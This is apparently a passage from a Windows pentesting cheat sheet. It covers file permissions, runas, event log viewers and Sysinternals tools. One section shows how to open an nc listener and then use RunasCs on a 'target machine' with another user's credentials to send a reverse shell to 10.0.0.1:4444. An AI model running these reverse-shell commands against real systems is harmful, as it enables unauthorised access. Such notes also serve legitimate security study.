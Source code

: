 ```powershell
# /q: suppress success message
# /c: continue the operation despite any file errors
# /t: perform the operation on all specified files
# /grant: grant specified user access rights
icacls "example.txt" /q /c /t /grant Users:F
```

<br />

## Switch Another User

```bash
runas /user:<domain>\<username> cmd
```

### Spawn Another Session as Another User

If we cannot switch user due to such as reverse shell sessions, we can spawn another shell as another user by using [RunasCS](https://github.com/antonioCoco/RunasCs).

First, start a listener in local machine.

```bash
nc -lvnp 4444
```

Then execute the following command in target machine.  
Replace **`username`** and **`password`** with the credential of the user that we want to switch to.

```bash
RunasCs.exe username password cmd -r 10.0.0.1:4444
```

<br />

## Event Logs

- **Event Viewer**
- **FullEventLogview**

<br />

## Tasks

- **Task Schedular**

<br />

## Sysinternals

Tools that offer technical resources and utilities to manage, diagnose, troubleshoot, and monitor a Microsoft Windows environment.

```sh
# Autoruns
# It shows what programs are configured to run during system bootup or login.
autoruns.exe

# Process Explorer
# A freeware task manager and system monitor.
procexp.exe
procexp64.exe

# Process Monitor
# It monitors and displays in real-time all file system activity.
procmon.exe
procmon64.exe
```